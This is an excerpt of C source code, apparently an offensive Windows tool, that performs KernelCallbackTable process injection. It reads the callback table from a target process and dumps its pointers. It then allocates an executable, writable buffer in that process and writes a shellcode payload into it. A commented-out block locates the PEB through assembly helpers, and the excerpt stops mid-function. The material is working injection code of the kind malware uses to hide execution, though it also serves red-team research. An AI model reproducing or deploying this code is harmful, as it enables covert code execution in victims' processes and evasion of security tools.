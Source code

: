         // Step 7: Read KernelCallbackTable structure from the target process
        KERNELCALLBACKTABLE CCC;
        if ( !ReadProcessMemory(
            hProcess,
            KernelCallbackTable,
            &CCC,
            sizeof( CCC ),
            &bytesRead
        ) )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to read KernelCallbackTable structure. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
        printf( COLOR_GREEN_BOLD "\n\t[+] KernelCallbackTable read successfully. %zu bytes read.\n" COLOR_RESET, bytesRead );
        printf( COLOR_BLUE_BOLD "\t\t[*] Dumping KernelCallbackTable structure:\n" COLOR_RESET );
        printf( COLOR_GREEN_BOLD "\t\t\t__fnCOPYDATA: 0x%p\n" COLOR_RESET, ( void* ) CCC.__fnCOPYDATA );
        printf( COLOR_GREEN_BOLD "\t\t\t__fnCOPYGLOBALDATA: 0x%p\n" COLOR_RESET, ( void* ) CCC.__fnCOPYGLOBALDATA );
        printf( COLOR_GREEN_BOLD "\t\t\t__fnDWORD: 0x%p\n" COLOR_RESET, ( void* ) CCC.__fnDWORD );
    
        // -----------------------------------------------------
        // Assembly Method: Using LocatePEB and ResolveKernelCallbackTable
        // -----------------------------------------------------
        /*
        // 
        printf( COLOR_YELLOW_BOLD "\t[*] Retrieving PEB Address using Assembly...\n" COLOR_RESET );
        PVOID PebBaseAddressASM = LocatePEB();
        printf( COLOR_BLUE_BOLD "\t\t[*] PEB Address (from ASM): 0x%p\n" COLOR_RESET, PebBaseAddressASM );
    
        printf( COLOR_YELLOW_BOLD "\t[*] Resolving KernelCallbackTable using Assembly...\n" COLOR_RESET );
        PVOID KernelCallbackTableASM = ResolveKernelCallbackTable( PebBaseAddressASM );
        printf( COLOR_BLUE_BOLD "\t\t[*] KernelCallbackTable Address (from ASM): 0x%p\n" COLOR_RESET, KernelCallbackTableASM );
    
        // Continue using KernelCallbackTableASM as needed
        */
    
        // Step 8: Write payload to remote buffer
        printf( COLOR_YELLOW_BOLD "\n\t[*] Allocating remote buffer for payload...\n" COLOR_RESET );
        LPVOID remotebuf = VirtualAllocEx(
            hProcess,
            NULL,
            shellcodeSize,
            MEM_RESERVE | MEM_COMMIT,
            PAGE_EXECUTE_READWRITE
        );
        if ( !remotebuf )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to allocate remote buffer. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
        if ( !WriteProcessMemory(
            hProcess,
            remotebuf,
            payload,
            shellcodeSize,
            NULL
        ) )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to write payload to remote buffer. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;